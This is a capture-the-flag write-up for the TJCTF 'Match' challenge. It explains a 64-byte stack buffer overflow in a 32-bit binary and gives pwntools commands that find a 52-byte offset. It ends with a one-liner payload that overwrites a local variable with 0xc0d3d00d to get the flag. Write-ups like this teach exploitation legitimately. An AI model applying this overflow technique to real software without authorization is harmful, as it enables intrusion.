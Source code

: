 ```yaml
---
tags: [_BOF, TJCTF]
title: Match
created: '2020-05-31T08:45:55.777Z'
modified: '2020-05-31T13:44:09.966Z'
---
```


# Match
## Solving
- `NX enabled`, stack is not executable! 
- The input function reads $16 * param2$ into $param1$, for the `Tinder Bio` input, the buffer is $64$ bytes big but $param2 = 8$, which means that it reads $16 * 8 = 128$ bytes and we have a BoF of $64$ bytes
- We get the flag when $local\_14 = 0xc0d3d00d$

We use a cyclic string to find the offset from our overflow to `local_14`, which is $52$
After the padding, we include `0xc0d3d00d` and that works!
## Commands
- `file match`:`match: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=20dc2329afce6884ca6bdae371f7af93bee637d5, with debug_info, not stripped`
- `checksec match`: `NX enabled`
## Exploit
### Find offset
```python
from pwn import *
cyclic(64)
cyclic_find(b'naaa')
``` 
```bash
python3 -c "print(
  'a\n' * 3 + # Get past first 3 inputs
  'b' * 64 + # Fill buffer of bio
  'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaa' # Cyclic to check where the padding needed to overwrite local_14
);" > input.txt
```
### Exploit
```bash
python -c "import pwn; print(
  'a\n' * 3 + # Get past first 3 inputs
  'b' * 64 + # Fill buffer of bio
  'c' * 52 + # Padding to local_14
  pwn.p32(0xc0d3d00d)
);" > input.txt
```
